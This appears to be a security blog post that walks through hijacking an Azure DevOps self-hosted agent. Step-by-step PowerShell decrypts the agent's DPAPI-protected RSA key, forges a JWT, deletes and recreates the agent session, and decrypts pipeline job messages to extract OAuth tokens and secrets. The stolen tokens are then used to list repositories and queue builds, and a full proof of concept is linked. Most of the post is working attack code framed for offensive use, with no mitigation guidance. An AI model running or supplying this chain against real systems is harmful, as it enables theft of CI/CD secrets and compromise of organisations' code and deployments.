



Imagine the scenario: you just ended up on a Windows Azure VM with RCE in your hands and start wondering how to potentially bring more impact, and then you notice the Azure DevOps agent folder. As an ex-DevOps engineer, I couldn't stop, so Critical Thinking mode was enabled. This article documents the technical flow for intercepting and decrypting Azure DevOps agent communications, ultimately extracting tokens, secrets, and more from pipeline job messages to escalate privileges

## Agent Communication Architecture
Before we move on to some exploitation, we need to have at least some common understanding of how the whole flow works between Azure Pipelines and Azure Self-Hosted Agents.

### Agent Registration
When an Azure DevOps agent is configured, it establishes trust with the Azure DevOps server through the following artifacts stored in the agent directory (by default on Windows: C:\azagent\A*, where * is the number of the agent installed locally — 1, 2, 3...):

| File                     | Purpose                                                    |
|--------------------------|------------------------------------------------------------|
| `.agent`                 | Agent metadata (pool ID, agent ID, name, server URL)       |
| `.credentials`           | OAuth client ID and authorization URL                      |
| `.credentials_rsaparams` | RSA key pair used for JWT signing and session key exchange |

Usually, the agent's folder is set with **read** permissions for all users by default, which makes the whole attack possible, as we can read the `.credentials_rsaparams` file.
### Session Establishment & Messaging
Once the registration is successful, the agent will create a session in order to start polling for new messages. The communication follows this sequence to establish a session with the Azure DevOps server:

1. **JWT Authentication**: Agent signs a JWT using its RSA private key
2. **Token Exchange**: JWT is exchanged for a Bearer token via OAuth endpoint
3. **Session Creation**: Agent creates a session, sending its RSA public key
4. **Key Exchange**: Server returns a session-specific AES key, encrypted with the agent's RSA public key
5. **Message Polling**: Agent polls for messages using the session ID 
6. **Message Encryption**: All job messages are AES-encrypted using the session key (where a message is encrypted version of the pipeline including variables, secrets, tokens)

```
┌─────────┐                             ┌──────────────────┐
│  Agent  │                             │  Azure DevOps    │
└────┬────┘                             └────────┬─────────┘
     │                                           │
     │──── JWT (signed with RSA private key) ───>│
     │<─────────── Bearer Token ─────────────────│
     │                                           │
     │──── Create Session (RSA public key) ─────>│
     │<─── Session ID + Encrypted AES Key ───────│
     │                                           │
     │──── Poll Messages (Session ID) ──────────>│
     │<─── AES-Encrypted Job Message ────────────│
```

## Exploitation Flow

### Prerequisites

Access to the agent directory with read permissions. By default, the agent installation directory may be readable by all local users.

### Attack Chain Summary

```
┌─────────────────────────────────────────────────────────────────┐
│ 1. Read agent directory (default permissions allow this)        │
└─────────────────────────┬───────────────────────────────────────┘
                          ▼
┌─────────────────────────────────────────────────────────────────┐
│ 2. Decrypt RSA key from .credentials_rsaparams                  │
└─────────────────────────┬───────────────────────────────────────┘
                          ▼
┌─────────────────────────────────────────────────────────────────┐
│ 3. Sign JWT with RSA key → Exchange for Bearer token            │
└─────────────────────────┬───────────────────────────────────────┘
                          ▼
┌─────────────────────────────────────────────────────────────────┐
│ 4. Hijack agent session (delete + recreate with our public key) │
└─────────────────────────┬───────────────────────────────────────┘
                          ▼
┌─────────────────────────────────────────────────────────────────┐
│ 5. Receive encrypted job message when pipeline runs             │
└─────────────────────────┬───────────────────────────────────────┘
                          ▼
┌─────────────────────────────────────────────────────────────────┐
│ 6. Decrypt message with session AES key                         │
└─────────────────────────┬───────────────────────────────────────┘
                          ▼
┌─────────────────────────────────────────────────────────────────┐
│ 7. Extract OAuth token from decrypted job payload               │
└─────────────────────────┬───────────────────────────────────────┘
                          ▼
┌─────────────────────────────────────────────────────────────────┐
│ 8. Access Azure DevOps APIs (repos, pipelines, secrets)         │
└─────────────────────────────────────────────────────────────────┘
```

The exploitation chain starts with collecting some agent config data, which will be required at a later stage to create our own session and send requests to APIs accordingly:

Read the `.agent` file to obtain agent metadata:

```powershell
$agentPath = "C:\azagent\A1\"
$agentConfig = Get-Content (Join-Path $agentPath ".agent") | ConvertFrom-Json

$poolId = $agentConfig.poolId
$agentId = $agentConfig.agentId
$agentName = $agentConfig.agentName
$serverUrl = $agentConfig.serverUrl
```

Read the `.credentials` file for authentication parameters like the OAuth URL and `clientId` (GUID):

```powershell
$credentials = Get-Content (Join-Path $agentPath ".credentials") | ConvertFrom-Json
$clientId = $credentials.data.clientId
$authUrl = $credentials.data.authorizationUrl
$tokenUrl = ($authUrl -split "/_apis")[0] + "/_apis/oauth2/token"
```
Gathering the locally installed agent version, Windows version, etc. — but I'll skip those. The next major step is to reconstruct the RSA key so we can forge our own JWT. The `.credentials_rsaparams` file is encrypted with DPAPI (CurrentUser scope), thus decryption is possible:

```powershell
Add-Type -AssemblyName System.Security
$encryptedBytes = [System.IO.File]::ReadAllBytes((Join-Path $agentPath ".credentials_rsaparams"))
$decrypted = [System.Security.Cryptography.ProtectedData]::Unprotect(
    $encryptedBytes,
    $null,
    [System.Security.Cryptography.DataProtectionScope]::CurrentUser
)
$rsaKey = [Text.Encoding]::UTF8.GetString($decrypted) | ConvertFrom-Json
```

The decrypted JSON contains RSA key components:
- `modulus`, `exponent` (public key)
- `d`, `p`, `q`, `dp`, `dq`, `inverseQ` (private key)

Having the RSA components decrypted, we can use them to recreate the RSA key.
```powershell
$rsaParams = New-Object System.Security.Cryptography.RSAParameters
$rsaParams.Modulus = [Convert]::FromBase64String($rsaKey.modulus)
$rsaParams.Exponent = [Convert]::FromBase64String($rsaKey.exponent)
$rsaParams.D = [Convert]::FromBase64String($rsaKey.d)
$rsaParams.P = [Convert]::FromBase64String($rsaKey.p)
$rsaParams.Q = [Convert]::FromBase64String($rsaKey.q)
$rsaParams.DP = [Convert]::FromBase64String($rsaKey.dp)
$rsaParams.DQ = [Convert]::FromBase64String($rsaKey.dq)
$rsaParams.InverseQ = [Convert]::FromBase64String($rsaKey.inverseQ)

$rsa = [System.Security.Cryptography.RSA]::Create()
$rsa.ImportParameters($rsaParams)
```

Now we have the key ready. The next step is to construct a JWT and sign it accordingly:

```powershell
$header = '{"alg":"RS256","typ":"JWT"}'
$headerBase64 = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($header)).TrimEnd('=').Replace('+','-').Replace('/','_')

$now = [int][double]::Parse((Get-Date -UFormat %s)) - 3600

$payload = @{
    sub = $clientId
    iss = $clientId
    aud = $tokenUrl
    nbf = $now
    iat = $now
    exp = $now + 300
    jti = [guid]::NewGuid().ToString()
} | ConvertTo-Json -Compress

$payloadBase64 = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($payload)).TrimEnd('=').Replace('+','-').Replace('/','_')

$dataToSign = [Text.Encoding]::UTF8.GetBytes("$headerBase64.$payloadBase64")
$sig = $rsa.SignData($dataToSign, [Security.Cryptography.HashAlgorithmName]::SHA256, [Security.Cryptography.RSASignaturePadding]::Pkcs1)
$sigBase64 = [Convert]::ToBase64String($sig).TrimEnd('=').Replace('+','-').Replace('/','_')

$jwt = "$headerBase64.$payloadBase64.$sigBase64"
```

!!! Remark: You might need to adjust the `$now` variable if there is a huge difference between your local vs. server time. During our testing, -3600 was enough to fit in due to a 1-hour difference only. The good thing is that Azure will give you the server time in the exception, so you know how to adjust it.

Having our JWT ready we can now exchange it for a Bearer token

```powershell
$body = @{
    client_assertion_type = "urn:ietf:params:oauth:client-assertion-type:jwt-bearer"
    client_assertion = $jwt
    grant_type = "client_credentials"
}
$tokenResponse = Invoke-RestMethod -Uri $tokenUrl -Method POST -Body $body -ContentType "application/x-www-form-urlencoded"
$token = $tokenResponse.access_token
```

As mentioned earlier, the pipeline data is an encrypted AES message and the key is exchanged during session creation, so we have some options like memory dumping, ...etc — but we'll keep it simple by searching the logs for the latest session ID (meanwhile, review the logs for secrets... as you can find a lot of juicy stuff there depending on the skills of the DevOps engineers :) ). Then, use the Bearer token to delete that existing session and create a new one before the agent does (pure race condition), so we can gain the AES key and start listening for pipelines.

Extract the current session ID from agent logs:

```powershell
$logsPath = Join-Path $agentPath "_diag"
$latestLog = Get-ChildItem $logsPath -Filter "Agent_*.log" | Sort-Object LastWriteTime -Descending | Select-Object -First 1
$logContent = Get-Content $latestLog.FullName -Raw

# Find the most recent session ID
$allMatches = [regex]::Matches($logContent, "session\s*'([a-f0-9-]{36})'")
$sessionId = $allMatches[$allMatches.Count - 1].Groups[1].Value
```

Delete existing session and create new one with attacker-controlled public key:
```powershell
$headers = @{
    Authorization = "Bearer $token"
    "Content-Type" = "application/json"
    "User-Agent" = "VSServices/$agentVersion"
    "X-TFS-FedAuthRedirect" = "Suppress"
}

# Delete existing session
$deleteUrl = "$serverUrl/_apis/distributedtask/pools/$poolId/sessions/$sessionId?api-version=7.0"
Invoke-RestMethod -Uri $deleteUrl -Headers $headers -Method DELETE

# Create new session with our RSA public key
$sessionBody = @{
    ownerName = $agentName
    agent = @{
        id = $agentId
        name = $agentName
        version = $agentVersion
        osDescription = $osDescription
    }
    useFipsEncryption = $false
    encryptionKey = @{
        encrypted = $false
        value = @{
            exponent = $rsaKey.exponent
            modulus = $rsaKey.modulus
        }
    }
} | ConvertTo-Json -Depth 5

$sessionsUrl = "$serverUrl/_apis/distributedtask/pools/$poolId/sessions?api-version=7.0"
$sessionResponse = Invoke-RestMethod -Uri $sessionsUrl -Headers $headers -Method POST -Body $sessionBody -ContentType "application/json"
```

The server returns the session AES key encrypted with the provided RSA public key, so we need to decrypt it accordingly before using it:

```powershell
$encryptedSessionKey = [Convert]::FromBase64String($sessionResponse.encryptionKey.value)
$sessionAesKey = $rsa.Decrypt($encryptedSessionKey, [System.Security.Cryptography.RSAEncryptionPadding]::OaepSHA1)
```

Now we can start polling and decrypting the intercepted messages.

```powershell
$messagesUrl = "$serverUrl/_apis/distributedtask/pools/$poolId/messages?sessionId=$($sessionResponse.sessionId)&api-version=7.0"

while ($true) {
    $response = Invoke-RestMethod -Uri $messagesUrl -Headers $headers -Method GET -TimeoutSec 5

    if ($response -and $response.body) {
        $encBytes = [Convert]::FromBase64String($response.body)
        $ivBytes = [Convert]::FromBase64String($response.iv)

        $aes = [System.Security.Cryptography.Aes]::Create()
        $aes.Key = $sessionAesKey
        $aes.IV = $ivBytes
        $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
        $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

        $decryptor = $aes.CreateDecryptor()
        $decryptedBytes = $decryptor.TransformFinalBlock($encBytes, 0, $encBytes.Length)
        $decryptedMessage = [Text.Encoding]::UTF8.GetString($decryptedBytes)
    }
}
```

Depending on the pipeline, you will see different access tokens. The logic is as follows — for example, if the pipeline is a pure build-and-deploy pipeline, this means that our token will have git access so it can clone the codebase in order to build it... Imagine an infra deployment pipeline :)



An interesting side note: Azure DevOps sends regex patterns to the agent so it can redact sensitive values from pipeline logs. That's the **secret masking configuration**. The irony — the mask patterns ARE the secrets themselves. Azure DevOps is essentially saying 'hide these values from logs,' and to do that, it sends the actual secret values as regex patterns. So even if you missed the token in the endpoints section, you get it here in the mask array.

```json
{
	"mask": [
		{
			"type": "regex",
			"value": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIs..."  // <-- This IS the secret token
		}
	]
} 
```

As well in the endpoints:


Full PoC: https://gist.github.com/apostolovd/432ac96625097c9a2d436ae405ca00fd

With the auth token, we can do things like checking what's in the repos.

```powershell
$accessToken = "TOKEN"
$headers = @{
	Authorization = "Bearer $accessToken"
	"Content-Type" = "application/json"
}
	
$items = Invoke-RestMethod -Uri "https://dev.azure.com/$orgName/_apis/git/repositories/$repoId/items?recursionLevel=Full&scopePath=/&api-version=7.0" -Headers $headers

$items.value | Where-Object { -not $_.isFolder } | Select-Object path
```



Or trigger a build where X is the id of build:
```powershell
$queueBody = @{ definition = @{ id = X } } | ConvertTo-Json
Invoke-RestMethod -Uri "https://dev.azure.com/$orgName/$projectId/_apis/build/builds?api-version=7.0" -Headers $headers -Method POST -Body $queueBody
```

For more endpoints, consult your Azure documentation and enjoy your cloud services escalation path via self-hosted agents.